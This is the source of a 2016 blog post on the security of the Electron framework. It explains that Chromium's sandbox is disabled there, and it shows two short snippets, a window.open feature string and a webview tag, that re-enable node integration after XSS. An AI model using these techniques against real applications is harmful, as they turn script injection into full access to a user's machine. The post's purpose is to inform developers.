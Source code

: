 ```yaml
---
title: As It Stands - Electron Security
date: 2016-03-09 00:00:00 Z
categories:
- Tech
tags:
- featured
author: dkerr
title-short: Electron Security
layout: default_post
summary: A brief look at the current state of application security in Electron
image: dkerr/assets/featured/electron.jpg
---
```


Over the past few years, there's been an increasing demand for web applications to separate from the browser and become fully integrated desktop applications. Previously, the amount of time and effort required to convert an existing application was a major roadblock to developers and businesses. However, frameworks are starting to appear offering an easier route to build cross-platform desktop applications utilising web technologies.

Back in early 2014, the [Atom IDE](https://atom.io) was released by GitHub with much fanfare. What made Atom unique was how GitHub managed to develop this cross-platform desktop application using only web technologies. Under the hood of Atom, the open-source Electron framework was developed to allow Atom to look, feel and behave just like a desktop application.

Ever since Atom's release, Electron has been rapidly gaining popularity and is being used to build an [extensive variety](http://electron.atom.io/#built-on-electron) of desktop applications. Companies such as Facebook, Slack, Docker and Microsoft are using it to build applications from the eponymously named [Slack](https://slack.com/), a messaging client inspired by IRC, to [Kinematic](https://kitematic.com), a GUI used to visualise and manage docker containers.

<p style="text-align: center">
	<img src='{{ site.baseurl }}/dkerr/assets/atom-electron-chromium.png' title="Atom stack" alt="Atom + Electron + Chromium stack" />
</p>

To allow web applications to run as desktop applications, Electron uses [Chromium](https://www.chromium.org/Home). Chromium is the open source foundation on which the Chrome web browser is based. Effectively, an Electron application is running inside a customised Chromium wrapper. Therefore, the security challenges an Electron application faces are almost identical to if it was running inside Chrome or any other web browser.

## Goodbye Sandbox

<p style="text-align: center">
	<img src='{{ site.baseurl }}/dkerr/assets/chromium-sandbox.png' title="Chromum Sandbox" alt="Chromium sandbox" />
</p>

The [Chromium sandbox](https://www.chromium.org/developers/design-documents/sandbox) encapsulates processes inside a very restrictive environment. The only resources sandboxed processes can freely use are CPU cycles and memory. What processes can do is controlled by a well-defined policy, this prevents bugs or attacks from performing IO operations (e.g. reading / writing files) on the user's system.

To provide applications with desktop functionality, the Electron team modified Chromium to introduce a runtime to access native APIs as well as Node.js's built in and third-party modules. To do this the Chromium sandbox protection was disabled, meaning any application running inside Electron is given unfiltered access to the operating system.

<p style="text-align: center">
	<img src='{{ site.baseurl }}/dkerr/assets/electron-sandbox.png' title="Electron Sandbox" alt="Electron sandbox" />
</p>

This is not a concern for a lot of Electron applications, especially those that don't pull in remote data and need extensive operating system privileges anyway (such as an IDE). However, this is a (potentially) serious and unnecessary security risk for applications that do pull in remote data, any successful XSS attack would give the attacker full control over the victim's machine!

It's worth stressing that a successful XSS attack within a sandboxed application is still a catastrophic event that can do untold damage. Even restricted to the sandbox, an attack can execute scripts to hijack user sessions, deface web sites, insert hostile content, redirect users and install malware. Nonetheless, unless they escape the sandbox the potential for damage stops at the browser level with the operating system left unharmed and only data explicitly shared with the browser at risk.

## False sense of security

To reduce the potential impact of an XSS attack on their application, many developers look at turning off node integration if it isn't needed. It's a sensible approach taken to [minimise the attack surface](https://www.owasp.org/index.php/Secure_Coding_Principles#Minimize_attack_surface_area) of the application, and [retain the least amount of privilege](https://www.owasp.org/index.php/Secure_Coding_Principles#Principle_of_Least_privilege) required to perform their business function.

Each Electron application has a [main process](http://electron.atom.io/docs/v0.36.8/tutorial/quick-start/#main-process) which executes a script that bootstraps the application. This script creates web pages by instantiating [BrowserWindow](https://github.com/atom/electron/blob/master/docs/api/browser-window.md) objects, each instance runs in their own process called the renderer process. In this script, it's possible to turn off node integration for each renderer process by setting a [`nodeIntegration` flag](https://github.com/atom/electron/blob/master/docs/api/browser-window.md#new-browserwindowoptions) to false inside the configuration provided when instantiating the BrowserWindow:

{% highlight js %}
new BrowserWindow({
    webPreferences: { nodeIntegration: false }
});
{% endhighlight %}

**However, exploits exist that allow the renderer processes to re-enable node integration despite it being explicitly turned off in the configuration!** This is something many developers are unaware of, any XSS attack has the potential to use these loopholes to re-enable node integration and gain full control over the victim's machine.

The first [workaround](https://github.com/atom/electron/issues/4026) uses Electron's [`window.open`](http://electron.atom.io/docs/v0.36.8/api/window-open/) function to spawn new child windows. The default behaviour for a new child window is to inherit the parent window's options. Currently, it's possible to override the options (including node integration) by setting them in the features string when calling `window.open`:

{% highlight js %}
window.open("www.example.com/evil.html", "", "nodeIntegration=1");
{% endhighlight %}

The code above spawns a new BrowserWindow object which displays the provided URL in a web page with node integration enabled. Any scripts ran within the given URL would have full access to all the Node APIs (e.g. [`FileSystem`](https://nodejs.org/api/fs.html#fs_file_system)) and any Electron modules [provided to renderer processes](http://electron.atom.io/docs/v0.36.8/#modules-for-the-renderer-process-web-page).

Another [workaround](https://github.com/atom/electron/issues/3943) involves inserting a [`webview`](https://electron.atom.io/docs/api/webview-tag/) element into the page. The webview element is a custom Electron DOM element used to embed guest content (such as web pages) inside an application. It's possible to add `nodeintegration` and `disablewebsecurity` attributes to the webview element to provide the guest content with access to the Node APIs as well as bypassing any [CORS](https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS) restrictions enforced by the renderer process.

{% highlight html %}
<webview src="data:text/html,<script>var fs = require('fs')</script>" nodeintegration></webview>
{% endhighlight %}

The example above runs an inline script that imports Node's [`FileSystem`](https://nodejs.org/api/fs.html#fs_file_system) module, access is granted thanks to the `nodeintegration` attribute placed on the `webview` element. The guest content inside the webview has identical privileges to the `window.open` workaround.

## As it stands

Successful XSS attacks are already catastrophe events for web applications. Electron widens the consequences of these attacks since they are no longer constrained by the sandbox from accessing the victim's machine. This places even greater emphasis on developers to ensure that their applications are not vulnerable to XSS, as the layer of protection offered by the sandbox is no longer present.

One smaller concern is how up-to-date the Electron team will keep its version of Chromium. As security issues are [patched and published](http://googlechromereleases.blogspot.co.uk/2016/03/stable-channel-update.html) by the Chromium team, Electron will need to keep updated to stay protected against exploits. So far, the team have been keeping Electron closely in sync and [their plan](https://electron.atom.io/docs/faq/#when-will-electron-upgrade-to-latest-chrome) is to be only one to two weeks behind. It's worth pointing out that there are a number of large companies who have a lot to lose if Electron ever fell too far behind, this makes it rather unlikely to happen but it's still a potential risk to monitor.

## Planned Changes

The good news is that Electron is a very active open source project, backed by a major web player ([GitHub](https://www.github.com)) and a lot of companies have built their products using it. As a result, the workarounds mentioned above (as well as other issues) are already being addressed thanks to contributions from a number of interested parties.

Once those workarounds have been patched, Electron applications should be a lot more resilient against XSS attacks re-enabling node integration. It's worth pointing out that there's an [open discussion](https://github.com/atom/electron/issues/1753) around Electron's security model on GitHub, so further changes and improvements are likely to be made once this discussion is finalised.

One notable contribution that's underway is the return of sandbox protection for any Electron applications that don't need node integration. This work is being undertaken by the developers of [Brave](https://www.brave.com/), a recently-announced web browser which aims to block ads and trackers to protect user's privacy and enhance browsing speed. They've been incredibly open about [their plan](https://twitter.com/BrendanEich/status/696610645693730816) which is to contribute their progress back to the community, once the work on their forked version of Electron is finished.

<p style="text-align: center">
	<img src='{{ site.baseurl }}/dkerr/assets/brave-sandbox.png' title="Brave Sandbox" alt="Brave sandbox" />
</p>

They're using Electron to wrap the webpage content shown by their browser, this means they're not in control of the content being shown and so are far more vulnerable to attacks. The content they are showing needs no node or desktop integration, so the loss of this functionality caused by re-enabling the sandbox protection isn't an issue to them.

## Conclusion

To summarise, Electron currently has its fair share of security issues that complicate the process of building secure applications. The removal of the sandbox protection in return for desktop integration removes an important [layer of defence](https://www.owasp.org/index.php/Defense_in_depth) against XSS attacks. Various workarounds also exist that circumvent turning node integration off in the event of an XSS attack. Fortunately, due to the framework's popularity and active community the Electron team are already making good progress to resolving these issues.

With that said, there's still a lot of work to be done. One major goal should be a more secure way for applications that do need some node and desktop integration to interact with the operating system. At the moment however, there's no clear path forward on how that would be achieved.

**[See this post for an update](http://blog.scottlogic.com/2016/06/01/An-update-on-Electron-Security.html) to the points raised in this article.**
